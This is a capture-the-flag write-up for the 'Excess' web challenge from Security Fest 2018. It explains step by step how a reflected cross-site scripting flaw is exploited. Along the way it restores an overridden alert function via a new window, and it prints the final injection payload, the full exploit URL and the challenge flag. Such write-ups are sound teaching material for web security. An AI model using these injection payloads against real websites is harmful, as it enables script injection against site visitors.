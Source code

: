 # Excess
Category: `web`
Description: `This is some kind of reverse captcha to tell if the visitor is indeed a robot. Can you complete it?`
Service: `http://xss1.alieni.se:2999/`
Author: `avlidienbrunn`
Points: 51

# How to Solve
![Main website](https://github.com/fionachang/ctf-writeups/raw/master/2018/security_fest/img/excess/main.png)

The website provides a link to `http://xss1.alieni.se:2999/?xss=hello` but the link looks the same. Here is the page source:

```html
<!DOCTYPE html>
<html lang="en">
  <head>
      <meta charset="UTF-8">
      <meta name="viewport" user-scalable="no" content="width=device-width, initial-scale=1">
      <link rel="stylesheet" href="/static/style.css" />
      <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
      <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>
      <link rel="stylesheet" href="https://netdna.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css" />
      <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/mdbootstrap/4.3.0/css/mdb.min.css" />
  </head>
  <body>
      <script src="/static/no_alert_for_you.js"></script><section class="login-info">
<div class="container">
  <script>var x ='hello'; var y = `hello`; var z = "hello";</script>
  <div class="row main">
       <div class="form-header header">
          <h1 class="text-center ">Excess Ess</h1>
        </div>
    <div class="main-content">
          <div class="row" id="container">
            <hr>
            <h4 class="text-center black-text">Make alert(1) pop <a href="/?xss=hello">here</a> and submit the working URL in the form below.</h4>
          </div>
          <form method="post" action="/submit">
          <div class="input-group ">
            <span class="input-group-addon"><span class="glyphicon glyphicon-paperclip" aria-hidden="true"></span></span>
            <input type="text" class="form-control text-center" name="url" placeholder="URL that pops alert(1) without user interaction">
          </div>
          
          <div class="form-group ">
          <center>
              <input type="submit" value="submit" name="login" class="btn btn-green header btn-lg btn-block login-button"/>
              </center>
          </div>

          </form>
          
          <div class="form-group" id="container">
          </div>
      
      </div>
    </div></body></html>
```

The GET parameter `xss` controls the variable declared in a script tag in the page.

```html
<script>var x ='hello'; var y = `hello`; var z = "hello";</script>
```

Browsing to `http://xss1.alieni.se:2999/?xss='; alert(1); '` shows a pop-up containing the sentences `He confirm. He alert. But most of all he prompt.` and a textbox instead.

![Initial payload](https://github.com/fionachang/ctf-writeups/raw/master/2018/security_fest/img/excess/initial_payload.png)

The page source indicates that script was successfully injected.

```html
<script>var x =''; alert(1); ''; var y = `'; alert(1); '`; var z = "'; alert(1); '";</script>
```

After looking closely at the page source, there is a javascript file define before the payload.

```html
<script src="/static/no_alert_for_you.js"></script><section class="login-info">
```

The file `no_alert_for_you.js` override the `window.alert` function to a prompt. Hence, a prompt is shown instead of the alert.

```javascript
/*

        If there is no alert,
            how can there be XSS?
                      /
                     /
            )            (
           /(   (\___/)  )\
          ( #)  \ ('')| ( #
           ||___c\  > '__||
           ||**** ),_/ **'|
     .__   |'* ___| |___*'|
      \_\  |' (    ~   ,)'|
       ((  |' /(.  '  .)\ |
        \\_|_/ <_ _____> \______________
         /   '-, \   / ,-'      ______  \
b'ger   /      (//   \\)     __/     /   \
                            './_____/

*/
window.alert = (x=>prompt("He confirm. He alert. But most of all he prompt."));
```

We have to restore `window.alert` to the default alert function. We can get the default alert function by referencing the alert function of another window. In this case, we are using the default alert function of a new window. _Note: You may need to enable pop-up_ 

```javascript
window.alert = window.open().alert;
```

Using `alert(1)` will create a pop-up in the new window. Thus, we will use `window.alert(1)` so that a pop-up is created in the main window. Here is the final payload:

```
'; window.alert = window.open().alert; window.alert(1); '
```

Browse to the following link to test our payload:

```
http://xss1.alieni.se:2999/?xss='; window.alert = window.open().alert; window.alert(1); '
```

![Final payload](https://github.com/fionachang/ctf-writeups/raw/master/2018/security_fest/img/excess/final_payload.png)

Enter the link to get the flag.

![Flag](https://github.com/fionachang/ctf-writeups/raw/master/2018/security_fest/img/excess/flag.png)

Flag: `sctf{cr0ss_s1te_n0scr1ptinG}`
